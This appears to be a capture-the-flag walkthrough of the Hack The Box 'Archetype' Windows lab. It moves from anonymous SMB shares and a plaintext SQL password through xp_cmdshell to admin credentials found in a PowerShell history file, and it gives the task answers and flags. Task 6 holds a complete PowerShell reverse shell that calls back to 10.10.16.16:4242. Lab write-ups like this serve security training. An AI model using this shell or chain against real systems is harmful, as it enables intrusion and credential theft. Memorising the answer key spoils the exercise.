### Archetype

**OS:** Windows<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>
**Tags:** Protocols, MSSQL, SMB, Powershell, Reconnaissance, Remote Code Execution, Clear Text Credentials, Information Disclosure, Anonymous/Guest Access<br>


---

#### Task 1
**Which TCP port is hosting a database server?**
> 1433

Using the `nmap` command, we see that there is a `ms-sq-s` database server running on port `1433`:




---

#### Task 2
**What is the name of the non-Administrative share available over SMB?**
> backups

We use the `smbclient` command with the `-N` flag to connect to the SMB Server without authentication and the `-L` flag to list all available shares. Administrative shares have a `$` at the end of their names. Therefore the `backups` share is the only non-Administrative one on the SMB server:




---

#### Task 3
**What is the password identified in the file on the SMB share?**
> M3g4c0rp123

We access the `backups` share anonymously and download the `prod.dtsConfig` file. We display the contents of `prod.dtsConfig` and see that the password is hardcoded into the config file:




---

#### Task 4
**What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?**
> mssqlclient.py

We can use the credentials we found in the `prod.dtsConfig` file to authenticate to the target Microsoft SQL Server. We login as the `sql_svc` user in the `ARCHETYPE` domain using the password `M3g4c0rp123`:




---

#### Task 5
**What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?**
> xp_cmdshell

In our SQL shell, we want to use the `xp_cmdshell` stored procedure and need to enable the feature using the `sp_confgiure` command:




---

#### Task 6
**What script can be used in order to search possible paths to escalate privileges on Windows hosts?**
> winpeas

We download the `winpeas.exe` file and create a reverse shell in powershell `rev_shell.ps1` that connects to port `4242` of our computer:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.16',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Next we set up an HTTP server on port `12345` of our own machine in the same directory as our `winpeas.exe` and `rev_shell.ps1` files:



We can run powershell commands using our Windows command shell with the `powersehll -c {cmd}` command. We try to download files to the Administrator's directory and aren't allowed. However, we do have permissions in the sql_svc user's directory. We use our Windows command shell to execute a powershell command download the `winpeas.exe` and `rev_shell.ps1` files:



Next we setup a listener on our own computer using the `nc` command with the `-lvnp` flag on port `4242`. Then we go back to our Windows command shell and run the powershell command `powershell -noexit .\../../Users/sql_svc/rev_shell.ps1` which uses runs our reverse shell script:



Next we go back to our computer's netcat listener and see that we have a reverse shell. Then we are able to run winpeas.




---

#### Task 7
**What file contains the administrator's password?**
> ConsoleHost_history.txt

We run the `.\winpeas.exe systeminfo` command and see that we can view the PowerShell history file  `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`:



Next we use the `cat` command to view the PowerShell history file:



We see that there is an `Administrator` user with the password `MEGACORP_4dm1n!!`.


---

#### User Flag
> 3e7b102e78218e935bf3f4951fec21a3

We use navigate to sql_svc's desktop and use the `cat` command to view the user flag `user.txt`:




#### Root Flag
> b91ccec3305e98240082d4474b848528

Lastly we use Impacket's psexec script with our stolen Administrator credentials to login to the target machine. We then view the contents of the Administrator flag `root.txt` with the `more` command:



---